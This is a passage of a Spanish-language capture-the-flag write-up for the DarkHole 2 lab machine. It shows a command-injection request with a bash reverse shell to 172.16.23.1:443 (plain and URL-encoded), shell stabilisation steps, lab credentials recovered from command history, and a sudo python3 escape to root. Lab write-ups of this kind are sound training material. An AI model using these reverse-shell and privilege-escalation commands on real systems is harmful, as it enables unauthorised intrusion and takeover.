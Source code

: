 Comando original:
```
curl "http://localhost:9999/?cmd=bash -c 'bash -i >& /dev/tcp/172.16.23.1/443 0>&1'
```

URL Encoded:
```
curl "http://localhost:9999/?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'"
```
![[darkhole_2.26.png]]
	Shell inversa obtenida como losy.

> [!WARNING] Advertencia  
> Una vez establecida la conexión remota mediante netcat, la terminal puede no estar completamente operativa para la interacción directa. Por ello, es recomendable ejecutar un proceso de estabilización antes de continuar con la auditoría, asegurando así un entorno de trabajo más estable y funcional.
#### Estabilización de TTY

Comandos para estabilizar la shell:
```
/usr/bin/script -qc /bin/bash /dev/null
```
Luego CTRL+Z y ejecutar:
```
stty raw -echo; fg
```
Finalmente:
```
export TERM=xterm
```

#### Análisis del Historial de losy

Comando:
```
history
```
![[darkhole_2.27.png]]
> [!danger] Información Crítica en Historial
> Comandos encontrados:
> 1. sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
> 2. sudo python3 -c 'import os; os.system("/bin/sh")'
> 3. P0assw0rd losy:gang (credenciales expuestas)
> 
> Esto nos confirma que el usuario losy tiene permisos sudo para ejecutar Python como root bajo la credencial "gang".

### Escalada a Root
Comando para obtener shell root:
```
sudo python3 -c 'import os; os.system("/bin/sh")'
```
![[darkhole_2.0.png]]
	Shell de root obtenida. Flag root.txt capturada en directorio /root.

---